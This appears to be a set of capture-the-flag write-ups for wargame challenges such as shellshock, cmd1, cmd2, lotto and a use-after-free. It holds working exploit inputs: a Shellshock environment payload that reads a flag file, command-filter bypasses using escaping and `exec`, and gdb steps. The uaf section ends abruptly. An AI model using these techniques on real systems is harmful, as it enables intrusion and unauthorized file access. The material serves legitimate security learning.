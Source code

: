 # shellshock
Google shellshock vulnerability. And get:
```bash
$ export foo='() { echo "aaa"; }; value=$(<flag);echo "$value"'
$ ./shellshock
```

# coin1
Simple math, use binary search is enough

# blackjackk
The code does not check negative value, just type `-100000000` and you will get enough money.

# lotto
```c
for(i=0; i<6; i++){
  for(j=0; j<6; j++){
    if(lotto[i] == submit[j]){
      match++;
    }
  }
}
```

We can type duplicate word to increase the posbility to win, e.g:`,,,,,,`

# cmd1
We have to bypass the restriction of flag, sh, tmp. And the *PATH* is set to /thankyouverymuch. Just use an absolute address to execute command and use `\` escape to bypass strstr: `./cmd1 "/bin/cat < /home/cmd1/fla\g"`

# cmd2
Almost the same as above one: `./cmd2 "read line;exec \$line"`. Then type: `/bin/cat flag`

# uaf
let’s set a break point at *main+286 which is instruction call rdx. We the breakpoint is triggered, let’s reveal the data on stack: 
```
gdb> x/4wx $rbp-0x38:
0x7ffca7f01ee8:	0x02131ea0	0x00000000	0x02131ef0	0x00000000
```

Why x/4wx $rbp-0x38, as the disassemble instruction shown:
```
0x0000000000400fcd <+265>:	mov    rax,QWORD PTR [rbp-0x38]
   0x0000000000400fd1 <+269>:	mov    rax,QWORD PTR [rax]
   0x0000000000400fd4 <+272>:	add    rax,0x8
   0x0000000000400fd8 <+276>:	mov    rdx,QWORD PTR [rax]
   0x0000000000400fdb <+279>:	mov    rax,QWORD PTR [rbp-0x38]
   0x0000000000400fdf <+283>:	mov    rdi,rax
   0x0000000000400fe2 <+286>:	call   rdx
```
